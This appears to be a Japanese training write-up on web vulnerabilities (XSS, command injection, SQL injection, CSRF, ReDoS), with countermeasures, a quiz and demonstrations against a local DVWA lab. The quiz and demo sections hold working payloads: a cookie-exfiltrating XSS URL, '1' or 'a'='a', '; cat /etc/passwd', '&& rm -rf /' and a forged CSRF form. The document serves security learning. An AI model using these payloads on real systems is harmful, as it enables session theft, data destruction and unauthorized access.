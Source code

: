 # WEBサービスの代表的な脆弱性を理解する

## 課題1(質問)

### 脆弱性の仕組み、発生し得る被害、対処法を解説してください

#### XSS(クロスサイトスクリプティング)

仕組み: 悪意のあるスクリプトをWebページに注入し、ユーザーのブラウザでそのスクリプトが実行される脆弱性です。

発生し得る被害
1. 本物サイト上に偽のページが表示される
    - 偽情報の流布による混乱
    - フィッシング詐欺による重要情報の漏えい
2. ブラウザが保存しているCookieを取得される
    - Cookie にセッションIDが格納されている場合、さらに利用者へのなりすましにつながる
    - Cookie に個人情報等が格納されている場合、その情報が漏えいする

3. 任意のCookieをブラウザに保存させられる
    -  セッションIDが利用者に送り込まれ、「セッションIDの固定化」 攻撃に悪用される
    
参考文献: [安全なウェブサイトの作り方 - 1.5 クロスサイト・スクリプティング](https://www.ipa.go.jp/security/vuln/websecurity/cross-site-scripting.html)

対策: 
1. 入力データのエスケープ: ユーザーからの入力データを表示する際にはHTMLエスケープする
2. コンテンツセキュリティポリシー（CSP）の設定: 悪意のあるスクリプトの実行を防ぐためにCSPを設定する。
3. JavaScriptやHTMLのサニタイズ: サニタイズライブラリを使用して、ユーザーからの入力を適切にフィルタリングする。

#### コマンドインジェクション

仕組み: 攻撃者がアプリケーションを介してシステムコマンドを実行する脆弱性です。

発生し得る被害:
1. サーバ内ファイルの閲覧、改ざん、削除(重要情報の漏えい、設定ファイルの改ざん)
2. 不正なシステム操作(意図しないOS のシャットダウン、ユーザアカウントの追加、変更)
3. 不正なプログラムのダウンロード、実行(ウイルス、ワーム、ボット等への感染、バックドアの設置)
4. 他のシステムへの攻撃の踏み台(サービス不能攻撃、システム攻略のための調査、迷惑メールの送信 )

対策:
1. ユーザー入力のバリデーション 
    -  ユーザー入力を適切にフィルタリングして、シェルメタキャラクターや不正なコマンドを排除する。
2. 安全なコマンド実行方法の使用
    -  exec() や system() のような危険な関数の使用を避け、可能であれば高レベルAPIを使用する。
3. 最小権限の原則
    - サーバーやプロセスに最小限の権限を与えておくことで、万が一侵入された場合の被害を最小限にする。

参考文献: [安全なウェブサイトの作り方 - 1.2 OSコマンド・インジェクション](https://www.ipa.go.jp/security/vuln/websecurity/os-command.html)

#### SQLインジェクション

仕組み: アプリケーションがユーザー入力を直接SQLクエリに組み込む際に、攻撃者が悪意のあるSQLコードを注入することで発生します。これにより、攻撃者はデータベースに対して不正な操作を実行することが可能になります。

発生し得る被害:
1. データ漏洩
    - データベース内の敏感な情報（顧客データ、機密データなど）が攻撃者によって不正に取得される可能性があります。
2. データの改ざん
    - 攻撃者はデータベース内のデータを変更したり削除したりすることができます。
3. 認証バイパス
    - 攻撃者はログイン認証をバイパスして、他のユーザーや管理者として不正にログインできる可能性があります。
4. データベース破壊
    - 攻撃者はデータベースの構造そのものを破壊したり、データベース全体を削除したりする可能性があります。
5. 他のシステムへの攻撃
    - データベースサーバーを経由して、ネットワーク内の他のシステムに攻撃を広げる可能性もあります。
    
対策:
1. パラメータ化クエリの使用
    - ユーザー入力を直接クエリに埋め込まず、パラメータ化されたクエリやプリペアドステートメントを使用します。 
2. 入力データのサニタイズ
3. 最小権限の原則
    - データベースユーザーに最小限の権限しか付与しない。 

参考文献: [安全なウェブサイトの作り方 - 1.1 SQLインジェクション](https://www.ipa.go.jp/security/vuln/websecurity/sql.html)

#### CSRF
仕組み: ユーザーが意図しないリクエストを別のウェブサイトに対して送信するように攻撃者が誘導する脆弱性です

発生し得る被害:
1. ログイン後の利用者のみが利用可能なサービスの悪用
    - 不正な送金、利用者が意図しない商品購入、利用者が意図しない退会処理
2. ログイン後の利用者のみが編集可能な情報の改ざん、新規登録
    - 各種設定の不正な変更（管理者画面、パスワード等）、掲示板への不適切な書き込み

対策:
1. CSRFトークンの導入
    - 各リクエストに対して一意のトークンを生成し、これをフォームデータやリクエストヘッダーに含めることで、リクエストが正規のものであることを確認します。 
2. SameSite属性の使用
3. Refererヘッダーのチェック

    
参考文献: [安全なウェブサイトの作り方 - 1.6 CSRF（クロスサイト・リクエスト・フォージェリ](https://www.ipa.go.jp/security/vuln/websecurity/csrf.html)


### 先輩エンジニアから「正規表現エンジンに負荷がかからないか検討した？」と聞かれました。

1. 正規表現のパフォーマンス問題
   - 複雑な正規表現や特定のパターンは入力に対して時間がかかることがあります。
2. ReDoS（正規表現によるサービス拒否攻撃）
- 攻撃者によって意図的に作られた入力データによって極端に時間がかかる可能性があります。
- APIに対する負荷を増加させ全体的なパフォーマンスの低下を引き起こす可能性があります。

## 課題2(クイズ)
1. あるWebアプリケーションで、ユーザーの入力をページに表示する際に、エスケープ処理を行っていないとします。このとき、攻撃者がどのような入力を行うことでXSS攻撃が成立する可能性が最も高いでしょうか？
    1. `<img src="invalid.jpg" onerror="alert('XSS')">`
    2. `SELECT * FROM users WHERE id=1`
    3. `../../etc/passwd`
    4. `&lt;script&gt;alert(1)&lt;/script&gt;`

    正解: `<img src="invalid.jpg" onerror="alert('XSS')">`


2. ユーザーがフォームに入力したデータを使ってシェルコマンドを実行する機能があります。このとき、どのような入力がコマンドインジェクション攻撃を引き起こす可能性が高いでしょうか？

    1. `&& rm -rf /`
    2. `OR 1=1`
    3. `<script>alert('XSS')</script>`
    4. `../../../../../etc/passwd`

    正解: `&& rm -rf /`
    
## 課題3(実演)

- XSS

default=<script><script>を使用するとスクリプトを実行できる。
window.locationは指定されたURLを読み込むのでクエリパラメタでクッキーを別のサイトに送ることができる
```
http://localhost/DVWA-master/vulnerabilities/xss_d/?default=<script>window.location = "http://localhost?hisCookie="+document.cookie</script>
```

参考文献: [DVWAでXSS(DOM)](https://qiita.com/KPenguin/items/983348dace1527ef9963)

- SQLインジェクション

下記のSQL分をフォームから投げることで全ユーザーを出力することができる

```
1' or 'a'='a
```
参考文献: [DVWAでSQLインジェクション](https://qiita.com/KPenguin/items/0ef2fdc5a35f16f20fdb)

- コマンドラインインジェクション

セミコロンはUNIXではコマンドセパレーターになるので、
下記をフォームに入力するとpingコマンドを実行した後にpasswdをcatする
```
; cat /etc/passwd
```

参考文献: [DVWAでCommandInjection](https://qiita.com/KPenguin/items/200859376e3865b866bb)

- CSRF

下記のフォームを使用したパスワード変更偽サイトを作り入力された新パスワードを保存するようにする。
保存されたパスワードを使用して不正ログインする。
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Change Password</title>
</head>
<body>
    <h2>Change Password</h2>
    <form action="http://localhost/vulnerabilities/csrf/?" method="GET">
        <label for="password_new">New password:</label><br />
        <input type="password" AUTOCOMPLETE="off" name="password_new" id="password_new"><br /><br />
        <label for="password_conf">Confirm new password:</label><br />
        <input type="password" AUTOCOMPLETE="off" name="password_conf" id="password_conf"><br /><br />
        <input type="submit" value="Change" name="Change">
    </form>
</body>
</html>
```

参考文献: [DVWAでCSRF](https://qiita.com/KPenguin/items/92e88dfe6a5734dc2532)

## 課題4(OWASP)

### A02:2021 – Cryptographic Failures

Proxyサーバーのようなリクエストを第３者のサービスに中継するサービスを開発中です。
そのため各ユーザーが第3者サービスから取得する認証情報をSecretsManagerに保存することで、
Lambdaは安全に認証情報にアクセスでき、なお且つSecretsManagerへは一部の従業員にのみにアクセス権限を限定させる。